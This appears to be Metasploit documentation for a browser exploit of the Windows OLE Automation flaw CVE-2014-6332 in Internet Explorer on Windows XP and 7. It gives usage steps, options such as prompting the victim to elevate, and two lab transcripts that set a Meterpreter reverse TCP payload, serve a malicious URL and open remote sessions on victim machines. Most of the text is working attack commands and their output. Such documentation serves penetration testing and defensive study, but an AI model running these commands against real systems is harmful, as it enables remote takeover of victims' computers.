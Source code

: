 ## Vulnerable Application

This module exploits the Windows OLE Automation array vulnerability, [CVE-2014-6332](https://www.cvedetails.com/cve/cve-2014-6332). The vulnerability is known to affect Internet Explorer 3.0 until version 11 within Windows 95 up to Windows 10, and no patch for Windows XP. However, this exploit will only target Windows XP and Windows 7 boxes. This is because from Windows 8 upward Internet Explorer blocks the payload from executing. Windows XP by defaults supports VBS, therefore it is used as the attack vector. On other newer Windows systems, the exploit will try using Powershell instead.

## Verification Steps

1. Start msfconsole
1. Do: ```use exploit/windows/browser/ms14_064_ole_code_execution```
1. Do: ```Choose a payload and set any specific options```
1. Do: ```run```, after a target browses to the generated URL, you should receive a session.

## Options

### TRYUAC

Ask victim to start as Administrator. This option only works on Windows 7 targets.

### AllowPowershellPrompt

Allow exploit to try Powershell. If exploiting a Windows 7 target you need to enable this option.

## Scenarios

### Windows XP Pro SP3 x86 with IE 8.0.6001.18702

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.207`. 

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/hGA1Ux
[*] Local IP: http://192.168.2.3:8080/hGA1Ux
[*] Server started.
[*] 192.168.2.207    ms14_064_ole_code_execution - Gathering target information for 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending exploit...
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending VBS stager
[*] Sending stage (957487 bytes) to 192.168.2.207
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.207:1299) at 2017-03-01 19:07:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : MACHINE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Windows 7 Pro SP1 x64 with IE 8.0.7601.17514

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.208`. Unlike on the Windows XP, target victim will see a popup dialog appear and they will have to allow the execution of the PowerShell script for the exploit to work. You need to set `AllowPowershellPrompt` option to `true` otherwise the exploit won't work on Windows 7.

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > set AllowPowershellPrompt true
AllowPowershellPrompt => true
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/6tdgNjLVij3zs
[*] Local IP: http://192.168.2.3:8080/6tdgNjLVij3zs
[*] Server started.
[*] 192.168.2.208    ms14_064_ole_code_execution - Gathering target information for 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending exploit...
[*] Sending stage (957487 bytes) to 192.168.2.208
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.208:49197) at 2017-03-01 19:35:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WINDOWS7_X64
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
